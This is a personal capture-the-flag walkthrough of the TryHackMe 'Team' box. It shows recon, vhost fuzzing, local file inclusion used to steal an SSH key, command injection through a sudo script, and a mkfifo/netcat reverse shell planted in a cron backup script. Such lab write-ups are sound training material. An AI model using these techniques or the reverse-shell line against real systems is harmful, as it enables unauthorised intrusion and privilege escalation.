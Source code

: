 - - - 
created : 25-07-2025 

Tags : #easy 
- - - 
# Objective

**Please allow 3-5 minutes for the box to boot**
# Recon

## Rustscan - Nmap

We use [Rustscan](../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../3%20-%20Tags/Hacking%20Tools/Nmap.md) :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ rustscan -a team.thm -- -A 
 
Open 10.10.168.250:21
Open 10.10.168.250:22
Open 10.10.168.250:80
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.5
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Team
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
```

# Enumeration

## HTTP(80)

### Gobuster

We can use [Gobuster](../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) tu start [Enumeration](../../3%20-%20Tags/Hacking%20Concepts/Enumeration.md) on the target :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt  -u http://team.thm  

/.hta                 (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/.htaccess            (Status: 403) [Size: 273]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/]
/images               (Status: 301) [Size: 305] [--> http://team.thm/images/]
/index.html           (Status: 200) [Size: 2966]
/robots.txt           (Status: 200) [Size: 5]
/scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/server-status        (Status: 403) [Size: 273]
Progress: 4746 / 4747 (99.98%)

```

![Pasted image 20250725204448.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725204448.png)

![Pasted image 20250725204548.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725204548.png)
### FFuf

Using [FFuf](../../3%20-%20Tags/Hacking%20Tools/FFuf.md) to fuzz vhosts :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -H 'Host: FUZZ.team.thm' -u http://team.thm -fs 11366 -c
________________________________________________

dev                     [Status: 200, Size: 187, Words: 20, Lines: 10, Duration: 60ms]
www                     [Status: 200, Size: 2966, Words: 140, Lines: 90, Duration: 57ms]
:: Progress: [20478/20478] :: Job [1/1] :: 632 req/sec :: Duration: [0:00:37] :: Errors: 0 ::

```

We use [Nano](../../3%20-%20Tags/Hacking%20Tools/Nano.md) to add them :

![Pasted image 20250725205143.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725205143.png)

`dev.team.thm` :

![Pasted image 20250725205220.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725205220.png)
![Pasted image 20250725205306.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725205306.png)

### Caido

We can try [Local File Inclusion (LFI)](../../3%20-%20Tags/Hacking%20Concepts/Local%20File%20Inclusion%20(LFI).md) with [Caido](../../3%20-%20Tags/Hacking%20Tools/Caido.md) :

![Pasted image 20250725210416.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725210416.png)

![Pasted image 20250725211146.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725211146.png)

![Pasted image 20250725211342.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725211342.png)

And we can retrieve the first flag:

![Pasted image 20250725211728.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725211728.png)
# Exploit

We retrieve `dale` [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) private key, i did it wit [Caido](../../3%20-%20Tags/Hacking%20Tools/Caido.md) and a [Local File Inclusion (LFI)](../../3%20-%20Tags/Hacking%20Concepts/Local%20File%20Inclusion%20(LFI).md) wordlist (i tried not URL encoded and didn't worked):

![Pasted image 20250725215329.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725215329.png)
## SSH First Access

We save it and make it executable with `chmod 600 id_dale` then use it:

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ ssh -i id_dale dale@team.thm                                                          
Last login: Mon Jan 18 10:51:32 2021
dale@ip-10-10-168-250:~$ ls
user.txt
dale@ip-10-10-168-250:~$ cat user.txt
THM{6Y0TXHz7c2d}
```

We have again the flag, retrievable from [Website](../../3%20-%20Tags/Hacking%20Concepts/Website.md) with [Local File Inclusion (LFI)](../../3%20-%20Tags/Hacking%20Concepts/Local%20File%20Inclusion%20(LFI).md) .
# Lateral Movement - Privilege Escalation

We can start [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) by checking permissions :

```bash
dale@ip-10-10-168-250:/home$ sudo -l
Matching Defaults entries for dale on ip-10-10-168-250:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on ip-10-10-168-250:
    (gyles) NOPASSWD: /home/gyles/admin_checks
dale@ip-10-10-168-250:/home$ cd gyles
dale@ip-10-10-168-250:/home/gyles$ cat admin_checks 
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"

```

We’ll be injecting in the error variable since we see that the variable is directly passed to a system call:

```bash
dale@ip-10-10-168-250:/home/gyles$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: name
Enter 'date' to timestamp the file: /bin/bash
The Date is /bin/bash
id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),108(lxd),1003(editors),1004(admin)
```

Now we have a shell as the user Gyle.

Also, going through “.bash_history”, we see a trace of Cronjob running.

Since, going through the file we see that it’s a bash script that copies some backups, we decided to edit the file and add a [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) since we knew that a Cronjob was being executed:

```bash
cat main_backup.sh        
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.250.11.13 1337 >/tmp/f
```

We setup a listener with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) and wait for root [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/Scrivania]
└─$ nc -lvnp 1337
listening on [any] 1337 ...

```

Pwned !!